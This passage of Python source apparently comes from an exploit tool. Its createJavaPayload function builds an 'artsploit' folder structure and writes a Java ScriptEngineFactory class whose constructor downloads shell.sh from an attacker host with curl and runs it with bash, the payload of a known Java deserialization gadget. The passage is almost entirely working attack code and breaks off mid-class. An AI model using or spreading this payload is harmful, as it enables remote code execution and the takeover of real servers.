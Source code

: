```py
    print("[+] Done, shell file created !! [+]")

# Function to create the java payload
def createJavaPayload(lhost):
    # First let's create the sctructur folder to compile the jar file
    print("[+] Creating the folders !! [+]")
    os.system("mkdir src")
    os.system("mkdir src/artsploit")
    os.system("mkdir src/META-INF")
    os.system("mkdir src/META-INF/services")
    print("[+] Folders created ... Let's create the files inside !! [+]")
    # Let's create the files to compile
    ScriptEngineFactory = "artsploit.AwesomeScriptEngineFactory"
    AwesomeScriptEngineFactory = """package artsploit;
import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl %s/shell.sh -o /tmp/shell1.sh");
            Runtime.getRuntime().exec("bash /tmp/shell1.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    @Override
    public String getEngineName() {
        return null;
    }
    @Override
    public String getEngineVersion() {
        return null;
    }
    @Override
    public List<String> getExtensions() {
        return null;
    }
    @Override
    public List<String> getMimeTypes() {
        return null;
    }
    @Override
    public List<String> getNames() {
        return null;
    }
    @Override
    public String getLanguageName() {
        return null;
    }
    @Override
    public String getLanguageVersion() {
        return null;
    }
    @Override
    public Object getParameter(String key) {
        return null;
    }
    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }
```